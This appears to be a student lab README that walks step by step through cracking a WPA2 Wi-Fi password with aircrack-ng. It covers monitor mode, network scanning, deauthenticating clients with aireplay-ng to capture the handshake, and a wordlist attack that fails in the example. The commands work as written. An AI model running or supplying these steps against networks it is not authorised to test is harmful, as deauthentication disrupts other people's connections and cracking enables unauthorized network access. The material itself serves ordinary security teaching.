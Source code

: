 # Aircrack-ng

This is documentation for using aircrack-ng as tools
to crack password files.

### [starting airmon-ng]

This command is used for checking if the wifi card supports monitoring mode or not.

````
$ sudo airmon-ng start wlp1s0

PHY	Interface	Driver		Chipset

phy0	wlp1s0		ath9k		Qualcomm Atheros QCA9565 / AR9565 Wireless Network Adapter (rev 01)

		(mac80211 monitor mode vif enabled for [phy0]wlp1s0 on [phy0]wlp1s0mon)
		(mac80211 station mode vif disabled for [phy0]wlp1s0)
````
    
### [airodump-ng ESSID]

````
$ sudo airodump-ng wlp1s0mon
````

````
 CH  8 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -57       87        4    0   1   65   WPA2 CCMP   PSK  hello-world
 xx:xx:xx:xx:xx:xx  -75      125     1073   46   5  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -83       29       10    0   6  130   WPA2 CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -88       35        0    0   1  130   WPA  CCMP   PSK  xxxxxxxxxx
 xx:xx:xx:xx:xx:xx  -87       16        0    0   8  130   WPA2 CCMP   PSK  xxxxxxxxxx

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx  -33    0e- 0e     0       22                     
 xx:xx:xx:xx:xx:xx  xx:xx:xx:xx:xx:xx   -1    1e- 0      0        1             
 
````

### [airodump-ng and aireplay-ng]

To get four way handshake, we need **`airodump-ng`** and
**`aireplay-ng`** to run together. The tools will then connect each other to indicate the handshake has been
made or not. Fail to do this or quickly stopping the scan 
will then lead to failure to do the handshake that we need. 
It'll also generate .cap file that we can use to do password 
cracking with aircrack-ng.
 
### [airodump-ng]

By using airodump-ng, we can see essid around us that can be
pawned. What we need in this session is
[WPA handshake: MA:C0:AD:DR:ES:S0], this will indicate that 
the wpa handshake is understood. It'll show when we do the 
next step. `--write pwnd` command will specify the results
into `pwnd` file, you can change this with your own file
output.


````
$ sudo airodump-ng -c 4 --bssid MA:C0:AD:DR:ES:S0 --write pwnd wlp1s0mon
````

````
 CH  4 ][ Elapsed: 1 min ][ yyyy-mm-dd hh:mm ][ WPA handshake: MA:C0:AD:DR:ES:S0
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 MA:C0:AD:DR:ES:S0  -56  87      528      465    1   1   65   WPA2 CCMP   PSK  hello-world

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -36    1 - 1      0      331                                                               
 MA:C0:AD:DR:ES:S0  xx:xx:xx:xx:xx:xx  -35    0e- 1     46      396  EAPOL     
````

### [aireplay-ng deauth]
Deauthenticating user that is connected to the network means
that they have to do the same login to then connect to the 
wifi that we're trying to brute-forcing. By doing this, it'll
then taking the information to do handshake with airdump-ng.

````
$ sudo aireplay-ng --deauth 50 -a MA:C0:AD:DR:ES:S0 wlp1s0mon
````

````
yyyy-mm-dd hh:mm:ss,1900-01-00 00:00:00,,MA:C0:AD:DR:ES:S0,-43,,0.000000,0.000000,0.000,0.000,Client
````


### [file list]

This is the list structure of the folder. there will be 6
files that will be indicated by the name
````
~/lab7 ls
.  ..  pwnd-01.cap  pwnd-01.csv  pwnd-01.kismet.csv  pwnd-01.kismet.netxml  pwnd-01.log.csv  readme.md
````


### [aircrack-ng command]
 
aircrack-ng will then do the cracking by using the wordlist that has
been indicated on the wordlist.txt, in this file, I'll be using
`common-wordlist.txt` as wordlist file.

````
$ sudo aircrack-ng pwnd-01.cap -w common-wordlist.txt 
````

as you can see on the results below, aircrack-ng says `KEY NOT FOUND`
this means that it can't pawn the network SSID because the wordlist
is not sufficient for this purpose.

````
                               Aircrack-ng 1.6 

      [00:00:00] 478/477 keys tested (2002.39 k/s) 

      Time left: --

                                KEY NOT FOUND


      Master Key     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      Transient Key  : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
                       00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 

      EAPOL HMAC     : 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
````

in the end, aircrack-ng can do its job if the wordlist is good enough
that it contains password for doing the cracking, otherwise it'll not
be useful. Brute-forcing is a good technique to use if you have enough
information of the target, otherwise, it'll fail.

